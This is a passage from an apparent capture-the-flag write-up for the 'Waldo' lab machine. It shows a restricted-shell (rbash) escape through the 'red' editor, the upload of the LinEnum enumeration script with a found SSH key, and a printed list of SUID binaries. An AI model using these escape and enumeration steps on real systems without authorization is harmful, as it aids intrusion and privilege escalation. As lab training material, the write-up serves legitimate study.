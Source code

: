 ```
           (@@/@,,@@&@@@            &@@,,(@@&          .@@%/@@,@@
             /@@@*,@@,@@@*         @@@,,,,,@@@@.     *@@@%,@@**@#
               %@@.%@&,(@@@@,  /&@@@@,,,,,,,%@@@@@@@@@@%,,*@@,#@,
                ,@@,&@,,,,(@@@@@@@(,,,,,.,,,,,,,,**,,,,,,.*@/,&@
                 &@,*@@.,,,,,..,,,,&@@%/**/@@*,,,,,&(.,,,.@@,,@@
                 /@%,&@/,,,,/@%,,,,,*&@@@@@#.,,,,,.@@@(,,(@@@@@(
                  @@*,@@,,,#@@@&*..,,,,,,,,,,,,/@@@@,*(,,&@/#*
                  *@@@@@(,,@*,%@@@@@@@&&#%@@@@@@@/,,,,,,,@@
                       @@*,,,,,,,,,.*/(//*,..,,,,,,,,,,,&@,
                        @@,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,@@
                        &@&,,,,,,,,,,,,,,,,,,,,,,,,,,,,&@#
                         %@(,,,,,,,,,,,,,,,,,,,,,,,,,,,@@
                         ,@@,,,,,,,,@@@&&&%&@,,,,,..,,@@,
                          *@@,,,,,,,.,****,..,,,,,,,,&@@
                           (@(,,,.,,,,,,,,,,,,,,.,,,/@@
                           .@@,,,,,,,,,,,,,...,,,,,,@@
                            ,@@@,,,,,,,,,,,,,,,,.(@@@
                              %@@@@&(,,,,*(#&@@@@@@,

                            Here's Waldo, where's root?
Last login: Sun Oct  7 13:25:46 2018 from 127.0.0.1
```

.. but logging in this way drops us into a restricted shell (`rbash`). This looks
to be the way the creator of the box intended us to log in as we find we have
some tools at our disposal to "break" out of this "jail".

```
monitor@waldo:~$ echo $0
-rbash
monitor@waldo:~$ ls bin
ls  most  red  rnano
monitor@waldo:~$ red
!'/bin/sh'
$ /bin/bash
monitor@waldo:~$
```

.. and now we are back to our full `bash` shell :-)

Dragged our Linux enum script over to see what we could find..

```
waldo:/tmp$ scp -i /home/nobody/.ssh/.monitor /tmp/LinEnum.sh  monitor@localhost:/
tmp/LinEnum.sh
LinEnum.sh                            100%   39KB  16.0MB/s  39.2KB/s   00:00
```
```
$ /tmp/LinEnum.sh -t -r LinEnum-monitor.out
```

There certainly are a lot of SUID files, but none of them look obviously useful.

```
SUID files:
/bin/su
/bin/umount
/bin/fusermount
/bin/ping
/bin/mount
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newgrp
```